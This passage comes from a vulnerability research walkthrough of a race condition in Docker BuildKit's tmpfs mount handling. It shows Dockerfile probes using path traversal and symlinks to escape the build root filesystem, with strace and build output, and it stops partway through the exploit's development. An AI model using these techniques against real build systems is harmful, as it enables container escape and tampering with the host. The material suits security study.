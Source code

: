 FROM alpine
RUN --mount=type=tmpfs,target=../../../../../../FINDME ls -l /FINDME
Yields the following output:

471:17:34:45.564930 mkdirat(AT_FDCWD, "/var/lib/docker/buildkit/executor/ybqzsilnirvxg20wytgb7skm4/rootfs/FINDME", 0755) = 0
This strongly indicates that the paths are being normalized, so there is no such success there. The next step we could try is a symbolic link; this may not be caught by a naive normalization regime:

FROM alpine
RUN ln -s ../../../../../FINDME2 /FINDME
RUN --mount=type=tmpfs,target=/FINDME ls -l /FINDME
469:17:37:04.939608 mkdirat(AT_FDCWD, "/var/lib/docker/buildkit/executor/jm1fdsswjh4ffockjv3y0xtx6/rootfs/FINDME2", 0755) = 0
Again, this indicates appropriate path normalization to the canonical path. We can infer that the symbolic link is first being resolved (as the new directory being created ends in our second path name "FINDME2"), then ensured to be relative to the root filesystem.

So, the paths are being properly checked. It seems that we cannot directly specify a path outside our rootfs this way. However, we know from our initial strace output that this validation and creation occurs before our process gains control, and the cleanup happens afterward. We can see that it is being checked for something, but at this stage, we do not know what without further investigation into the code.

Bringing in the race condition
There are a couple of pieces of background knowledge that are useful for the next stages of investigation for this vulnerability:

Mounts require privileges to move. We know that we do not have privileges and, therefore, cannot move the mount after it has been performed (before our process gains control). However, parent directories of mounts can be moved. Given sufficient control over the entire mount directory structure, we may be able to replace the created directory structure.

The unlinkat syscall will not traverse symlinks. This means that we cannot merely place a symlink as FINDME and expect the application to delete the target of the symlink. The symlink itself will be deleted.

With this background knowledge, we can intuit that we need the following to occur to be able to exploit this potential vulnerability:

We need to be able to create arbitrary depth mounts
We can check this with a simple modification to our sample Dockerfile:

RUN --mount=type=tmpfs,target=/tmp/movable/mount mount | grep movable
And observe success during build:

#5 [stage-0 2/2] RUN --mount=type=tmpfs,target=/tmp/movable/mount mount | grep movable
#5 0.167 tmpfs on /tmp/movable/mount type tmpfs (rw,nosuid,relatime,inode64)
#5 DONE 0.2s
We need to be able to move the mount and create a new directory structure
Validating our above assertion, we can see that it is not possible to move the mount directly:

#5 [stage-0 2/2] RUN --mount=type=tmpfs,target=/tmp/movable/mount mv /tmp/movable/mount /tmp/movable/mount.old
#5 0.166 mv: can't rename '/tmp/movable/mount': Resource busy
#5 ERROR: process "/bin/sh -c mv /tmp/movable/mount /tmp/movable/mount.old" did not complete successfully: exit code: 1
We can also confirm that the parent directory does allow moves:
